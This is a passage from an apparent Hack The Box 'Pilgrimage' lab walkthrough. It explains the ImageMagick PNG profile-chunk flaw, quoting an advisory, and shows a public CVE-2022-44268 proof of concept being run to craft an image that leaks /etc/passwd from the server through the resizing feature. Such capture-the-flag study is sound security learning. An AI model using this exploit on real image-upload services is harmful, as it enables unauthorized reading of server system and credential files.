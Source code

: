 From https://www.metabaseq.com/imagemagick-zero-days/ :

_When ImageMagick parses a PNG file, for example in a resize operation when receiving an image, the convert process could be left waiting for stdin input leading to a Denial of Service since the process won’t be able to process other images._

_A malicious actor could craft a PNG or use an existing one and add a textual chunk type (e.g., tEXt). These types have a keyword and a text string. If the keyword is the string “profile” (without quotes) then ImageMagick will interpret the text string as a filename and will load the content as a raw profile. If the specified filename is “-“ (a single dash) ImageMagick will try to read the content from standard input potentially leaving the process waiting forever._

Meaning that we can create a flawed image, upload it and the downloadable compressed image includes the content of a remote file.

### CVE-2022-44268 PoC
A quick lookup for CVE-2022-44268 brings us to this [PoC](https://github.com/Sybil-Scan/imagemagick-lfi-poc).

We can run it like the following to get the content of the file `/etc/passwd` on the server:
```
┌──(kali㉿kali)-[~/Desktop/hackthebox/pilgrimage/imagemagick-lfi-poc]
└─$ python generate.py -f "/etc/passwd" -o exploit.png

   [>] ImageMagick LFI PoC - by Sybil Scan Research <research@sybilscan.com>
   [>] Generating Blank PNG
   [>] Blank PNG generated
   [>] Placing Payload to read /etc/passwd
   [>] PoC PNG generated > exploit.png

┌──(kali㉿kali)-[~/Desktop/hackthebox/pilgrimage/imagemagick-lfi-poc]
└─$ 
```

If we upload this image we can download the compressed file:
![Shrinked](./images/shrinked.png)

